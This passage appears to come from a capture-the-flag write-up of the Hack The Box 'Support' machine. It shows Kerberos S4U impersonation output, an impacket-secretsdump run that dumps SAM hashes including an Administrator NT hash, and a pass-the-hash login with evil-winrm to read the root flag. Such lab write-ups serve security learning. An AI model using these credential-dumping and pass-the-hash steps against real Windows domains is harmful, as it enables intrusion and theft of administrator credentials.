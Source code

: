 ```bash

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] 	Requesting S4U2self
[*] 	Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```
Now I can use the `Administrator.ccache` file to run `impacket-secretsdump`.
```bash
┌──(kali㉿Kali)──[12:37:22]──[~/htb/Machines/Support/www]
└─$ export KRB5CCNAME=Administrator.ccache; impacket-secretsdump -k -no-pass support.htb/administrator@dc.support.htb -dc-ip dc.support.htb
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xf678b2597ade18d88784ee424ddc0d1a
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bb06cbc02b39abeddd1335bc30b19e26:::
<...SNIP...>
```
With the hash in hand, I can log in with `evil-winrm` as Administrator and grab the flag.
```bash
┌──(kali㉿Kali)──[12:39:38]──[~/htb/Machines/Support]
└─$ evil-winrm -i support.htb -u administrator -H 'bb06cbc02b39abeddd1335bc30b19e26'                                
                                        
Evil-WinRM shell v3.5
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
support\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> cat ..Desktop/root.txt
c4cccff-------------------------
*Evil-WinRM* PS C:\Users\Administrator\Documents> 

```